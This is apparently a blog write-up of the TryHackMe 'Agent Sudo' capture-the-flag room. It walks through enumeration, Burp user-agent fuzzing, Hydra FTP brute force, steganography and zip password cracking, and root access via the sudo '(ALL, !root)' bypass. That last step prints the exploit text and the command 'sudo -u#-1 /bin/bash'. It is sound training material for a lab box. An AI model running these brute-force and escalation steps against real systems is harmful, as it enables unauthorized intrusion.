

# Agent Sudo
**Date:** September 24th 2022

**Author:** j.info

**Link:** [**Agent Sudo**](https://tryhackme.com/room/agentsudoctf) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- How many ports are open?
- How you redirect yourself to a secret page?
- What is the agent name?
- FTP password
- Zip file password
- steg password
- Who is the other agent (in full name)?
- SSH password
- What is the user flag?
- What is the incident of the photo called?
- CVE number for the escalation
- What is the root flag?
- (Bonus) Who is Agent R?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
```

This answers our 1st question of how many ports are open.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```bash
/index.php            (Status: 200) [Size: 218]
```

<br>

## Website Digging

Visiting the main page:


So it looks like we can just send a request over with the agent name in the user-agent, which also answers the how to redirect question. Now to find an agent name.

I check the page source code and don't find any comments or useful information there.

Since the webpage lists the agent as "R" I try that to see what happens using Burp repeater:


Now that we know that works I send the request over to Burp intruder and set the fuzz position to the user-agent:


I then add the letters A to Z in the payload options:


And finally launch the attack, which shows us the letter C has a status code of 302 and a length of 422, and the letter R has a length of 501 instead of 409 like everything else:


So it looks to me like we should take a closer look at C. I send that over in Burp repeater to see what comes back:


We can see the Location: part of the response changes from the normal and gives us a .php to try. Visiting it shows us the agents name and answers question 3. It also gives us a hint that the password is weak so we'll likely be able to brute force either FTP or SSH with this username:



<br>

## FTP Digging

We saw that FTP was open from our nmap scan earlier and I fire up Hydra and try to brute force my way in using the agent name we found:

`hydra -l <REDACTED> -P rockyou.txt $ip ftp -V`

```bash
[21][ftp] host: 10.10.14.106   login: <REDACTED>   password: <REDACTED>
```

Sure enough, that was weak and it gives us the answer to the FTP password question.

I login and download the files there:

```bash
Connected to 10.10.14.106.
220 (vsFTPd 3.0.3)
Name (10.10.14.106:kali): <REDACTED>
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||26631|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> prompt
Interactive mode off.
ftp> mget *
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||23027|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |***********************************************************|   217      482.71 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (2.71 KiB/s)
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||43763|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |***********************************************************| 33143      211.87 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (140.68 KiB/s)
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||25893|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |***********************************************************| 34842      218.44 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (146.69 KiB/s)
```

Viewing the To_agentJ.txt file:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

<br>

## Steganography

Given the hint from the text file we just read it looks like we'll need to use some steg to get the password for Agent J.

I try and use steghide on the .jpg picture but it requires a password:

`steghide extract -sf cute-alien.jpg`

```bash
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

Time to dust off stegseek, which is a great tool for cracking these passwords:

`stegseek -wl rockyou.txt cute-alien.jpg`

```bash
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "<REDACTED>"

[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

That gives us the answer to the steg password question.

It also put the original message.txt output into a file called cute-alien.jpg.out:

```
Hi <REDACTED>,

Glad you find this message. Your login password is <REDACTED>

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
<REDACTED>
```

That gives us the answer the who is the other agent and SSH password questions.

We still haven't found a .zip file though so maybe that's hidden in the .png file.

We can't use steghide on .png files so I use foremost instead:

`foremost -i cutie.png`

```bash
Processing: cutie.png
|foundat=To_agentR.txt�
*|
```

A directory called _cutie.png.extracted was created and it extracted the hidden files there:

```bash
┌──(kali㉿kali)-[~/work/_cutie.png.extracted]
└─$ ls -al
total 324
drwxr-xr-x 2 kali kali   4096 Sep 24 20:30 .
drwxr-xr-x 6 kali kali   4096 Sep 24 20:32 ..
-rw-r--r-- 1 kali kali 279312 Sep 24 20:30 365
-rw-r--r-- 1 kali kali  33973 Sep 24 20:30 365.zlib
-rw-r--r-- 1 kali kali    280 Sep 24 20:30 8702.zip
-rw-r--r-- 1 kali kali      0 Oct 29  2019 To_agentR.txt
```

I try and unzip the file and get an error message:

`unzip 8702.zip`

```bash
Archive:  8702.zip
   skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)
```

I google that and people suggest using 7zip instead so I try that:

`7z e 8702.zip`

```bash
Enter password (will not be echoed):
ERROR: Wrong password : To_agentR.txt
```

Of course we can't just extract the .zip file, silly me! I use zip2john to create a hash that we can crack:

`zip2john 8702.zip > hash`

And then use John the Ripper to crack it:

`john hash --wordlist=../rockyou.txt`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2022-09-24 20:41) 1.515g/s 37236p/s 37236c/s 37236C/s merlina..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

That gives us the answer to the zip file password question.

I try and uncompress it again with 7zip:

```bash
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-10600K CPU @ 4.10GHz (A0655),ASM)

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280

    
Would you like to replace the existing file:
  Path:     ./To_agentR.txt
  Size:     0 bytes
  Modified: 2019-10-29 08:29:11
with the file from archive:
  Path:     To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 08:29:11
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? y

                    
Enter password (will not be echoed):
Everything is Ok    

Size:       86
Compressed: 280
```

It extracted and overwrote the existing To_agentR.txt file:

```bash
-rw-r--r-- 1 kali kali     86 Oct 29  2019 To_agentR.txt
```

And looking at that file:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

That looks like base64 so I try and decode it:

`echo "QXJlYTUx" | base64 -d`

```
Area51
```

Uh oh, we may have an alien on our hands!

In case you wanted to see what the cute-alien.jpg and cutie.png look like:


It's a good thing Agent C told Agent J those were fake or he may not have known!

<br>

## System Access

We should be able to SSH in now that we have an agents name and password:

`ssh james@$ip`

```bash
The authenticity of host '10.10.14.106 (10.10.14.106)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.14.106' (ED25519) to the list of known hosts.
james@10.10.14.106's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep 25 00:46:56 UTC 2022

  System load:  0.0               Processes:           98
  Usage of /:   40.9% of 9.78GB   Users logged in:     0
  Memory usage: 34%               IP address for eth0: 10.10.14.106
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$
```

<br>

## System Enumeration

We find the user flag sitting in his home directory which answers the what is the user flag question:

`wc -c /home/james/user_flag.txt`

```bash
33 /home/james/user_flag.txt
```

Looking at the rest of the files in the home directory shows us the "real" alien photo that was mentioned earlier. It's a .jpg file and I logout and scp it back to my home system for analysis:

`scp james@$ip:/home/james/Alien_autospy.jpg ~/work/Alien_autospy.jpg`

```bash
james@10.10.14.106's password: 
Alien_autospy.jpg                                                     100%   41KB 108.5KB/s   00:00
```

Taking a quick look at the picture:


And THM wants to know what the incident is called, which I know off hand having seen the picture before. But in case you didn't you can use a reverse image search on it with TinEye. I click this result:


Which takes you here and answers the what is the incident of the photo question:


Now on to escalation and they want us to use a specific CVE that we need to find to do that.

Looking at `id` shows us we're a member of sudo and several other groups:

```bash
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

I check to see if there are any useful files with capabilities and there aren't.

Looking for SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything good.

I start looking around the system and end up in the /var/www/html directory where I see the index.php and agent_c_attention.php files we ran into earlier with the website. Looking at index.php here's the code that allowed us to figure things out with the user-agent earlier:

```php
<?php

if ($_SERVER['HTTP_USER_AGENT'] == "C") {
    header('Location: agent_C_attention.php ');
}

else if ($_SERVER['HTTP_USER_AGENT'] == "R") {
    echo 'What are you doing! Are you one of the 25 employees? If not, I going to report this incident';
}
?>
```

I don't find anything else interesting in the web directory.

Over in /var/FTP we see the fake alien pictures and To_agentJ.txt file we found when logging into the FTP server earlier.

I check `sudo -l` and it shows:

```bash
Matching Defaults entries for james on agent-sudo:                                                      
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

I happened to have seen something like this before and there's a sudo exploit specifically available if you have (ALL, !root). I find it in searchsploit:

`searchsploit sudo`

This is the one we're looking for:

```bash
sudo 1.8.27 - Security Bypass                                         | linux/local/47502.py
```

Checking the sudo version on the system to make sure it's vulnerable:

`sudo --version`

```bash
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

So we should be good to go. I pull the exploit over with searchsploit and then look at the code:

`searchsploit -m 47502.py`

```
# CVE : <REDACTED>

'''Check for the user sudo permissions

sudo -l

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT:

sudo -u#-1 /bin/bash

Example :

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#
```

That answers the CVE number for escalation question.

So we can see that we really don't even need the Python script and can just run the command under the EXPLOIT: section.

<br>

## Root

I run the exploit command:

`sudo -u#-1 /bin/bash`

And we get root!

```bash
james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:/tmp# whoami
root
root@agent-sudo:/tmp# hostname
agent-sudo
root@agent-sudo:/tmp#
```

This works because sudo doesn't check for the existence of the specified user id and executes with an arbitrary user id with sudo privileges. The -u#-1 returns as 0 which is the root users id number.

Looking inside of /root/root.txt:

```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
<REDACTED>

By,
<REDACTED> a.k.a Agent R
```

And that answers the root flag and bonus questions.

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **Burp** repeater to modify the user-agent string while sending requests
- Using **Burp** intruder to fuzz all agent letters
- Brute forcing an FTP login with **hydra**
- Steganography fun with **steghide**, **stegseek**, and **foremost** to extract hidden info from the provided picture files
- Creating a zip file hash with **zip2john** and then cracking it with **John the Ripper**
- Transfering files between the target system and our system with **scp**
- Reverse image searching with **TinEye**
- Finding a CVE associated with the version of **sudo** on the system and exploiting it to escalate to root

<br>

Many thanks to:
- [**DesKel**](https://tryhackme.com/p/DesKel) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)